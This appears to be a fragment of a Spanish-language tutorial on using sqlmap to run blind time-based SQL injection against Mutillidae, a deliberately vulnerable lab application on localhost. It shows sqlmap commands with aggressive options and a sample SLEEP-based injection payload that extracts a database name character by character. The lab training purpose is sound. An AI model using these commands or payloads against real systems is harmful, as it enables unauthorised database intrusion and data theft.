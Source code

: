 
### 🌟 7️⃣ Ejemplo de Blind Time-Based SQLi

✅ sqlmap detectará esto automáticamente.

Pero si quieres forzarlo:

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" --technique=T
```

➡️ sqlmap enviará payloads como:

```
1 AND IF(SUBSTRING((SELECT database()),1,1)='m', SLEEP(5), 0) --
```

✔️ Si el servidor tarda 5 segundos → la letra es correcta.

✔️ Así deduce **caracter por caracter**.

---

### 🌟 8️⃣ Consejos para usar sqlmap en Blind SQLi

✅ Usa **--risk** y **--level** para más payloads:

```bash
--risk=3 --level=5
```

✅ Usa **--delay** si el servidor limita peticiones:

```bash
--delay=2
```

✅ Guarda resultados:

```bash
--output-dir=./resultados
```

✅ Interactivo:

```bash
--batch
```

Para contestar automáticamente con "sí" a prompts.

---

### 🌟 9️⃣ Ejemplo COMPLETO para Mutillidae

✅ Comando:

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" --technique=B,T --dbs --batch
```
